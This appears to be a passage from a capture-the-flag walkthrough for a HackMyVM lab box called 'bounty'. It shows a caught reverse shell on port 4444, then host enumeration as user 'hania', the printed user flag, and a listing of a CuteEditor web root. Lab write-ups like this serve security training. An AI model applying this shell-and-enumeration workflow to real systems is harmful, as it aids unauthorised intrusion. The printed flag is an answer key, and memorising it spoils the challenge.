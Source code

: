 ```
[17:08:04] received connection from 192.168.56.140:37572 ←
[17:08:05] 0.0.0.0:4444: normalizing shell path
[17:08:06] 192.168.56.140:37572: registered new host w/ db
```

![Victim: hania](https://img.shields.io/badge/Victim-hania-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
hania ←
```

`id`:
```
uid=1000(hania) gid=1000(hania) grupos=1000(hania),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

`uname -a`:
```
Linux bounty 5.10.0-19-amd64 #1 SMP Debian 5.10.149-1 (2022-10-17) x86_64 GNU/Linux
```

`lsb_release -a`:
```
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 11 (bullseye)
Release:        11
Codename:       bullseye
```

`cd /home/hania`

`ls -alps ./`:
```
total 36
4 drwxr-xr-x 3 hania hania 4096 oct 20  2022 ./
4 drwxr-xr-x 4 root  root  4096 oct 20  2022 ../
0 lrwxrwxrwx 1 hania hania    9 oct 20  2022 .bash_history -> /dev/null
4 -rw-r--r-- 1 hania hania  220 oct 20  2022 .bash_logout
4 -rw-r--r-- 1 hania hania 3526 oct 20  2022 .bashrc
4 drwxr-xr-x 3 hania hania 4096 oct 20  2022 .local/
4 -rw-r--r-- 1 hania hania  807 oct 20  2022 .profile
4 -rw-r--r-- 1 hania hania   66 oct 20  2022 .selected_editor
4 -rw------- 1 hania hania   16 oct 20  2022 user.txt ←
4 -rw------- 1 hania hania  104 oct 20  2022 .Xauthority
```

`cat ./user.txt`:
```
HMVtuctictactoc ←
```

`ls -alps /var/www/html`:
```
total 3296
   4 drwxr-xr-x  7 root     root        4096 oct 20  2022 ./
   4 drwxr-xr-x  3 root     root        4096 oct 20  2022 ../
   4 -rw-r--r--  1 www-data www-data    3786 dic 18  2009 Ajax-Rich-Text-Editor.php
   4 -rw-r--r--  1 www-data www-data    2762 nov 25  2009 Auto-Adjusting-Height.php
  16 -rw-r--r--  1 www-data www-data   14806 mar 15  2011 CommonTasks.htm
   4 -rw-r--r--  1 www-data www-data    2778 nov 25  2009 custombuttons.php
   4 -rw-r--r--  1 www-data www-data    2331 nov 25  2009 custombuttons-popup.php
   4 -rw-r--r--  1 www-data www-data    1190 nov 25  2009 Customized-Toolbar.php
   4 drwxr-xr-x 11 www-data www-data    4096 oct 11  2021 cuteeditor_files/
   8 -rw-r--r--  1 www-data www-data    7422 mar 15  2011 default.htm
   8 -rw-r--r--  1 www-data www-data    7488 mar 15  2011 demo.htm
   8 -rw-r--r--  1 www-data www-data    6495 mar 15  2011 Deployment.htm
```